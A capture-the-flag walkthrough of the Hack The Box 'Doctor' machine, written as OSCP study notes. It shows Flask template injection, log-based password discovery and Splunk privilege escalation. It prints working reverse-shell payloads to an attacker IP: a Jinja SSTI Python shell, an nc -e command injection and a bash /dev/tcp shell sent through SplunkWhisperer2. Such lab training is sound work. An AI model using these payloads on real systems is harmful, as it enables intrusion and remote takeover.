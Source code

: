 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🧭 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.209
nmap -p 22,80,8089 -sCV -oA scans/nmap-tcpscripts 10.10.10.209
```

- Ports:
  - 22: [SSH](SSH) (OpenSSH 8.2p1)
  - 80: [HTTP](HTTP.md) (Apache/2.4.41)
  - 8089: HTTPS (Splunkd)

Discovered a subdomain: `doctors.htb`

---

## 🌐 Web Enumeration

### Port 80
- Default Apache page
- Discovered email: `info@doctors.htb`
- Add `doctors.htb` to `/etc/hosts`

### doctors.htb
- Werkzeug Python web server with Flask
- Create account ➝ login ➝ "New Message"
- URL `/archive` provides RSS output ➝ SSTI confirmed

```jinja
{{7*7}} ➝ renders to 49 in /archive
```

---

## 🧨 Exploitation - Shell as `web`

### Server-Side Template Injection (SSTI)
```jinja
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.14.6\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\", \"-i\"])'").read()}}
  {% endif %}
{% endfor %}
```

### Or Command Injection via POST
```bash
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
```

---

## 👤 Shell as `shaun`

### Inspect logs due to `web` being in `adm` group:
```bash
grep -r passw /var/log
```

Found:
```bash
POST /reset_password?email=Guitar123
```

```bash
su - shaun
Password: Guitar123
cat /home/shaun/user.txt
```

---

## 🔐 Privilege Escalation to `root`

### SplunkWhisperer2 RCE Exploit

#### Get Splunk creds:
- shaun:Guitar123 also works for Splunk 8089

#### Run SplunkWhisperer2
```bash
python3 PySplunkWhisperer2_remote.py \
  --host 10.10.10.209 \
  --lhost 10.10.14.6 \
  --username shaun \
  --password Guitar123 \
  --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
```

### Catch root shell:
```bash
nc -lnvp 443
id
cat /root/root.txt
```

---

## 🧠 Beyond Root

### Flask Session Hijack Post-Reset
- Cookies store `_user_id` ➝ reused after box reset to impersonate `shaun`

### Command Injection in FlaskForm
```python
os.system(f'/bin/curl --max-time 2 {url} -o {path}')
```

Any user input containing `$(...)` or backticks can result in RCE.

---

**Techniques**
- Flask SSTI ➝ RCE
- Log analysis ➝ Password reuse
- SplunkWhisperer2 ➝ Root RCE